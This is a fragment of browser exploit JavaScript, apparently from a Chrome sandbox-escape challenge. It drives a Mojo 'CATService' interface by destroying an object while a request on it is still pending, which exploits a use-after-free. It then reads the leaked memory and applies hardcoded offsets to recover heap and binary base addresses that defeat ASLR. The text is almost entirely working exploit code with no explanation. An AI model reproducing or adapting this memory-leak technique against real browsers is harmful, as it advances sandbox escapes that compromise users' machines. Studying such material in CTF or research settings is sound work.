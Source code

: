 ```javascript
    fact.register(mojo.makeRequest(ptr), blink.mojom.CATServiceType.kRaw);

    rawPtrs.push(ptr);
  }
  
  let hleak = 0;
  let bleak = 0;
  {
    const toBlocks = arr => {
      const ret = [];
      for(let i = 0; i < arr.length; i+= 8) {
        let curr = "";
        for(let j = 0; j < 8; j++) {
          curr = arr[i+j].toString(16).padStart(2, "0") + curr
        }
        ret.push(curr)
      }
      return ret;
    }
    const pprint = arr => {
      const blocks = toBlocks(arr);
      for(let i = 0; i < blocks.length; i++) {
        const curr = blocks[i];
        if(curr !== "0000000000000000") log("#" + i + " " + curr)
      }
    }
    for(let i = 0; i < rawPtrs.length; i++) {
      rawPtrs[i].initialize();
      const { id } = (await rawPtrs[i].addCAT({
        data: [1]
      })).result;
      const prom = rawPtrs[i].processCAT({
        id
      });
      rawPtrs[i].destroy({
        id
      });

      const { data } = (await prom).result;
      pprint(data);
      const blocks = toBlocks(data);
      for(let j = 0; j < blocks.length; j++) {
        // _ZN4base8internal23QueryCancellationTraitsINS0_9BindStateINS0_18IgnoreResultHelperIMN8autofill23AutofillDownloadManagerEFbNS5_15FormRequestDataEEEEJNS_7WeakPtrIS5_EES6_EEEEEbPKNS0_13BindStateBaseENSD_21CancellationQueryModeE
        if(blocks[j].endsWith("810")) {
          bleak = BigInt("0x" + blocks[j]) - 0x3123810n;
        } else if(blocks[j].endsWith("248")) {
          bleak = BigInt("0x" + blocks[j]) + 0x56376f6ae000n - 0x00056377ad8c248n;
        } else if(blocks[j].startsWith("00000") && blocks[j][5] != "0") {
          hleak = BigInt("0x" + blocks[j]);
        } else if(blocks[j].startsWith("0000") && +blocks[j][4] < 4 && blocks[j][4] != 0) {
          hleak = BigInt("0x" + blocks[j]) - 0x1507b13f2dc0n + 0x1507b24b3000n + 0xc00000n + 0x5000000n;
          hleak = (hleak / 0x1000n) * 0x1000n;
        }
      }

    }
  }

  log(bleak.toString(16) + " " + hleak.toString(16));

```